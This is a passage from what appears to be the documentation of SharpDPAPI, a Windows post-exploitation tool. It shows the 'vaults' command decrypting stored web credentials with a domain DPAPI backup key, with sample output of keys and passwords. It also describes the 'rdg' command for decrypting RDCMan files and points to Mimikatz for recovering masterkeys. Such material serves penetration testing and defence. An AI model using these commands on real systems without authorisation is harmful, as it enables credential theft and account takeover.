         LastWritten      : 10/12/2018 12:10:42 PM
        FriendlyName     : Internet Explorer
        Identity         : admin
        Resource         : https://10.0.0.1/
        Authenticator    : Password!

    ...(snip)...


Using a domain DPAPI backup key with a folder specified (i.e. "offline" triage):

    C:\Temp>SharpDPAPI.exe vaults /target:C:\Temp\test\ /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: User DPAPI Vault Triage

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316E94CC4CE4665
    ...(snip)...

    [*] Target Vault Folder: C:\Temp\test\


    [*] Triaging Vault folder: C:\Temp\test\

      VaultID            : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
      Name               : Web Credentials
        guidMasterKey    : {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}
        size             : 240
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32772/26115
        description      :
        aes128 key       : EDB42294C0721F2F1638A40F0CD67CD8
        aes256 key       : 84CD64B5F438B8B9DA15238A5CFA418C04F9BED6B4B4CCAC9705C36C65B5E793

        LastWritten      : 3/20/2019 6:03:50 AM
        FriendlyName     : Internet Explorer
        Identity         : account
        Resource         : http://www.abc.com/
        Authenticator    : password


#### rdg

The **rdg** command will search for RDCMan.settings files for the current user (or if elevated, all users) and either a) decrypt them with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.
